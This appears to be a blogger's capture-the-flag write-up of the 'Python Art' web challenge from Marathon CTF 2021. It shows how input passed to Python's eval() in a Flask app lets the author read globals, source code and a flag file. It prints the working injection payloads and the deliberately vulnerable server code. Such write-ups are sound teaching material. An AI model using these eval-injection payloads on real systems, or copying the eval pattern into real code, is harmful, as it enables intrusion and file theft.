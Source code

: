 ```yaml
---
title: Marathon CTF
date: 2021-04-02 00:40:00 +0200
categories: [CTF, Writeups]
tags: ctf writeups reverse reverse-engineering web
image: /assets/img/posts/2021-04-02-Marathon-CTF/cover.jpg
---
```

{% assign img_root = "/assets/img/posts/2021-04-02-Marathon-CTF" %}

Marathon CTF was a great CTF organized by [CyberTalents](https://cybertalents.com/) during the whole month (1 Mar. - 31 Mar. 2021) but I participated during only the last 4 days and I got the 28th place (same points ad 25th) as I solved all Reverse challenges but one, and some of Web, Crypto, Forensics challenges and Here's the writeup for some of these challenges!

<hr>

## Python Art

<img src="{{img_root}}/info/python-art.png" alt="Python Art Info">

Well, This challenge I really liked because It's more like a reverse challenge or at least for me! :D
<img src="{{img_root}}/challenges/python-art/python-art.png" alt="Python Art website">

So this website basically draws "whatever" I typed like this:
<img src="{{img_root}}/challenges/python-art/test.png" alt="testing input">

Since the challenge name is "Python Art" I thought of Django or Flask, I wanted to see the HTML source using inspect element and there was an interesting comment inside the <pre> tag under the drawn text the comment was `<!-- test is not defined -->` or something like that so I guessed the comment is a result of eval()! I tired 2+3 as input and the result in the comment was 5 so YUP, that's eval() function messing with me I KNEW IT!

Because I'm a reverse guy I overthought it so I tried to get the flag variable but it was not defined, I thought it might be in a text file and tried to read `flag.txt` but didn't work either, then I tried to execute compile() function inside the eval function but none of that worked but that made me read about code objects in Python so I had fun.

since the URL is `http://18.196.160.18:3333/send` I tried the input `send` and the comment had this response `<!-- function send at 0xfff..... -->` so that's the address of the function in memory, huh!

so to get the properties and methods of the function send I tried `dir(send)` and the response was
```python
['__call__', '__class__', '__closure__', '__code__', '__defaults__', '__delattr__', '__dict__', '__doc__', '__format__', '__get__', '__getattribute__', '__globals__', '__hash__', '__init__', '__module__', '__name__', '__new__', '__reduce__', '__reduce_ex__', '__repr__', '__setattr__', '__sizeof__', '__str__', '__subclasshook__', 'func_closure', 'func_code', 'func_defaults', 'func_dict', 'func_doc', 'func_globals', 'func_name']
```

And by taking a look at func_globals by typing `send.func_globals` .. BOOM!:
```
'DEFAULT_FONT': 'standard',
'art': <function art at 0x7f2ce3b7b4d0>,
'Flask': <class 'flask.app.Flask'>,
'app': <Flask 'app'>,
'aprint': <function aprint at 0x7f2ce3b7b450>,
'DECORATION_COUNTER': 195,
'randart': <function randart at 0x7f2ce3b7b550>,
...
lots of gibberish stuff
...
'__file__': 'app.py',
'art_param': <module 'art.art_param' from '/usr/local/lib/python2.7/site-packages/art/art_param.pyc'>
...
'decor_dic': <module 'art.decor_dic' from '/usr/local/lib/python2.7/site-packages/art/decor_dic.pyc'>, 'request': <Request 'http://18.196.160.18:3333/send' [POST]>, 'ART_VERSION': '5.1', 'ART_COUNTER': 700
```

So this is a `Flask` web application written in `app.py` file and there's functions like `art`, `aprint`, `randart`, etc.. which belong to the [art](https://pypi.org/project/art/) python library! All makes sense now! :D

Since I have the filename of source code I grabbed it `open('app.py','r').read()` and styled it a little:

```python
#!/usr/bin/python
from flask import Flask
from flask import render_template
from flask import request
from art import *

app = Flask(__name__, static_url_path='/static')

@app.route('/')
def index():
	return render_template('index.html')


@app.route('/send', methods = ['POST'])
def send():
	text = request.form.get('name')
	art = text2art(str(text),font='block',chr_ignore=True)

	try:
		cmd = eval(text)
	except NameError as e:
	    return render_template('index.html', cmd=e , art= art)
	return render_template('index.html', cmd=cmd , art=art)


if __name__ == '__main__':
	app.run(host='0.0.0.0')
```

so as I thought the comment is using eval() function and all looks good, Now it's time to get the flag!

I typed `__import__('glob').glob("*")` to discover what's around (which I should've done at first BTW xD):
```html
<!-- [&#39;app.py&#39;, &#39;flag&#39;, &#39;templates&#39;, &#39;static&#39;] -->
```
Okay it's `flag` file, not `flag.txt`! then by reading that file `open('flag', 'r').read()` I've got the flag:
<img src="{{img_root}}/challenges/python-art/flag.png" alt="flag">
